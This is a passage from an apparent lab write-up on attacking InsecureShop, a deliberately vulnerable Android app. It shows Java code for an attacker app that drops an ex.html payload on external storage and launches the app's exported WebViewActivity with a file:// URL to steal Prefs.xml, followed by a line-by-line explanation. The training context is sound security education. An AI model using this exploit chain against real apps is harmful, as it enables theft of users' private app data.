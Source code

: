 Then we need to create an application that launches an Intent to exploit the `com.insecureshop.WebViewActivity` as we did before, but this time we will make to launch our `ex.html` file that will steal the `Prefs.xml` file and send it back to us.

```java
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        try {
            // Read the HTML file from the assets
            BufferedReader reader = new BufferedReader(
                    new InputStreamReader(this.getAssets().open("ex.html")));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                stringBuilder.append(line).append("\n");
            }
            reader.close();
            String readfile = stringBuilder.toString();

            // Create a new file on the external storage
            File payload = new File(Environment.getExternalStorageDirectory().getAbsolutePath(), "ex.html");
            Log.d("File", payload.toString());
            // Write the content to the new file
            FileOutputStream fos = new FileOutputStream(payload);
            fos.write(readfile.getBytes());
            fos.close();

            // Start the vulnerable WebView activity
            Intent webViewActivityIntent = new Intent("android.intent.action.VIEW");
            webViewActivityIntent.setClassName("com.insecureshop", "com.insecureshop.WebViewActivity");
            webViewActivityIntent.setData(Uri.parse("insecureshop://com.insecureshop/web?url=file://"+payload.toString()));
            startActivity(webViewActivityIntent);

        } catch (IOException e) {
            e.printStackTrace();
        }

    }
}
```

Let’s break it down:

- The code starts by accessing an HTML file named `ex.html` located in the `assets` folder of my Android project. It reads the file line by line and appends each line to a `StringBuilder`. The resulting string, `readfile`, contains the entire contents of the HTML file.
- After reading the HTML file from assets, the code creates a new file named `ex.html` on the device's external storage.
- It constructs a `File` object using the path to the external storage directory, which is retrieved with `Environment.getExternalStorageDirectory().getAbsolutePath()`.
- The content of `readfile` is then written to this new file using a `FileOutputStream`.
